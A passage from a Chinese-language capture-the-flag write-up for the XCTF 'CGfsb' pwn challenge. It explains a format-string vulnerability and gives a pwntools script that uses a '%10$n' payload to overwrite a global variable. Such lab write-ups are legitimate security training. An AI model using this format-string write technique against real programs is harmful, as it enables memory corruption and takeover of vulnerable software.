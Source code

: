 ![](xctf_nostring_attacted.md4.png)

结果在output 窗口。

## pwn

### CGfsb
ida载入，发现要pwnme == 8 才行。字符串格式化漏洞


exp
```python
from pwn import *
context.log_level = 'debug'
conn = process('./e41a0f684d0e497f87bb309f91737e4d')
# conn = remote("220.249.52.133",56225)
pwnme = 0x0804A068
payload1 = 'aaaa'
payload2 = flat(p32(pwnme), 'a'*4 ,'%10$n')  #pwnme地址占4个字节，所以后面需要打印4个a
conn.recvuntil('please tell me your name:')
conn.sendline(payload1)
# gdb.attach(conn)
conn.recvuntil('leave your message please:') 
conn.sendline(payload2)
conn.interactive()
print(conn.recvall())
```